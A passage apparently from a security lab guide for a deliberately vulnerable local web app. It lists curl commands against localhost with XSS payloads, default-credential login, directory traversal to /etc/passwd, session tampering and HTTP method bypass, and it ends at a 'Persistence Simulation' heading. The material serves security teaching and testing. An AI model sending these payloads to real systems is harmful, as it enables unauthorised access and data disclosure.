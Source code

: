 ```bash
# Reflected XSS
curl "http://localhost:5000/search?q=<script>alert('Reflected XSS')</script>"
curl "http://localhost:5000/user?name=<img src=x onerror=alert('XSS')>"

# Stored XSS
curl -X POST "http://localhost:5000/comment" \
  -d "comment=<script>alert('Stored XSS')</script>" \
  -H "Content-Type: application/x-www-form-urlencoded"

# DOM-based XSS
curl "http://localhost:5000/profile#<img src=x onerror=alert('DOM XSS')>"
```

### Configuration Exploitation

```bash
# Debug mode information disclosure
curl "http://localhost:5000/debug" -v
curl "http://localhost:5000/config" -v

# Default credentials testing
curl -X POST "http://localhost:8080/login" \
  -d "username=admin&password=admin" \
  -H "Content-Type: application/x-www-form-urlencoded"

# Directory traversal
curl "http://localhost:5000/file?name=../../../etc/passwd"
curl "http://localhost:5000/download?file=../../../../etc/hosts"
```

### Authentication Bypass

```bash
# Session manipulation
curl -X GET "http://localhost:5000/admin" \
  -H "Cookie: session=modified_session_value"

# Parameter pollution
curl -X POST "http://localhost:5000/login" \
  -d "username=user&username=admin&password=test" \
  -H "Content-Type: application/x-www-form-urlencoded"

# HTTP method bypass
curl -X PUT "http://localhost:5000/admin/users"
curl -X DELETE "http://localhost:5000/admin/users/1"
```

## 🔍 Post-Exploitation Analysis

### Persistence Simulation
